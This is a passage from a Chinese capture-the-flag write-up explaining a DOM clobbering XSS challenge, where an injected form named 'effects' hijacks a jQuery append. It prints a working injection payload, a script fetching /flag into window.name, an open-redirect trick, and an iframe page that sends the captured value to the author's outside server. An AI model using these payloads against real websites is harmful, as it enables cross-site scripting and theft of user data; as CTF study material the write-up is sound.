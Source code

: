 ```javascript
           '<script src="/assets/js/effects/three.min.js"></script>',
           '<script src="/assets/js/effects/canvas-sphere.min.js"></script>'
        ],
    }
    

article.js

    $(document).ready(function(){
        $("body").append((effects[$("#effect").val()]));
    });
```
article.js通过找到id为effect的标签，选取其中的值，进而从config.js中选取对应的js文件加载到html中 这里有个重要的trick

> 在js中，对于特定的form,iframe,applet,embed,object,img标签，我们可以通过设置id或者name来使得通过id或name获取标签

意思是指，当html中存在一个`<form id="my_form">`时，可以直接通过my_form来获取这个标签， 验证一下：可以看到，确实是可以通过id直接获取到改fomr节点 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/102f88d55fd6426f1dbb4a9d580d82ef.png) 
所以，接下来的思路就是通过控制article中的append的节点，插入至恶意代码 要做的有如下两件事

1.  注释掉config.js，否则无法控制想要的append节点的字符
2.  找一个可以存放恶意代码，又可以通过effects\[$("#effect").val()\] 方式取出的节点

看看大佬们是如何操作的
```
effect=name"><form id=effects name="<script>alert(1)</script>"><script>
```
看看效果 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/8c3d11c08a0e73469c9136f1722990ee.png) 
成功弹窗，分析下页面html 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/2ee0083a1d05f66f96c4316acb7e7c50.png) 
最后的`<script>`与config.js的`</script>`进行了闭合 而且代码的最后，插入了`<script>alert(1)</script>`的弹窗代码 分析下，插入代码的过程 查看下每个变量的值 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/3c28981161447502b7ac10766c4b2de1.png) 
effects由于注释了config.js之后，又重新创建了一个id为effetcs的form 导致effects直接选出来的就是我们构造的form标签 $('#effect')  
则是通过我们代码最开头给effect标签的value设置了一个name，导致其值也变成了name 
这样组合下来 effects\[$("#effect").val()\]  就变成了我们设置的那个form中name的值，而这个点恰好又是我们能控制的 从而产生了弹窗 

接下来在引入两个问题

*   effect字符的输入有长度限制
*   如何通过js获取flag的值，并发送给自己

提供一个别人的js
```html
<script>$.get('/flag',e=>name=e)
```
通过jquery，发送一个get请求，并将请求的值返回给window.name 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/5e280e64b80986c150c6187c3ebbe934.png) 
根据window.name可以跨域传输的性质，接下来还一个任意转跳的链接
```
202.120.7.197:8090/login?next=%2F
```
通过修改next参数，可以跳转到任意链接 这样提交恶意url的时候，就可以指向自己构造的一个页面，然后切入iframe标签，获取window.name
```html
<iframe src="http://202.120.7.197:8090/article/3816"></iframe>
<script>
 setTimeout(()=>{frames[0].window.location.href='/'},1200)
 setTimeout(()=>{location.href='http://xss.kingkk.com/?'+frames[0].window.name},1500)
</script>
```
就获取了iframe标签中的window.name，并发送往自己的服务器，可在log文件中查看flag 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/759253fc33fc0de9311fd06e79ec08f2.png) 
将指定链接发给xssbot即可获得flag